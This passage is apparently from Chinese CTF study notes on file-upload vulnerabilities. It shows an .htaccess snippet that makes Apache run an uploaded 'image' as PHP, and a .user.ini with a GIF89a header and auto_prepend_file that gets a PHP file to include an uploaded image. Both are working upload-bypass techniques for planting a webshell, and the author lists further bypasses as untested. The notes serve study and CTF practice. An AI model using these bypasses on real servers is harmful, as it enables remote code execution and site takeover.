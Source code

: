 - apache解析漏洞绕过

  1. 上传图片马evil.php.xxx.abc

  2. 上传.htaccess，内容为

     ```php
      <FilesMatch "evil.php.xxx.abc">
     	       SetHandler application/x-httpd-php
      </FilesMatch>
     ```

- .user.ini

  跟.htaccess后门比，适用范围更广，nginx/apache/IIS都有效，而.htaccess只适用于apache

  条件：   

  - 服务器脚本语言为PHP

  - 服务器使用CGI／FastCGI模式

  - 上传目录下要有可执行的php文件

    ```php
    GIF89a                  //绕过exif_imagetype()
    auto_prepend_file=a.jpg //指定在主文件之前自动解析的文件的名称，并包含该文件，就像使用require函数调用它一样。
    auto_append_file=a.jpg  //解析后进行包含
    ```

还有其他绕过的姿势，由于笔者还没有遇到过相关题型无法确定绕过方式的有效性，暂时不具体细说（比如evil.php/.），比如win系统解析漏洞绕过、iis6.0 6.5 版本解析漏洞以及nginx解析漏洞，详情可见参考文章

#### 参考文章

[文件上传漏洞原理、防御、绕过](https://blog.csdn.net/qq_43455259/article/details/125064968)
 图源看雪论坛
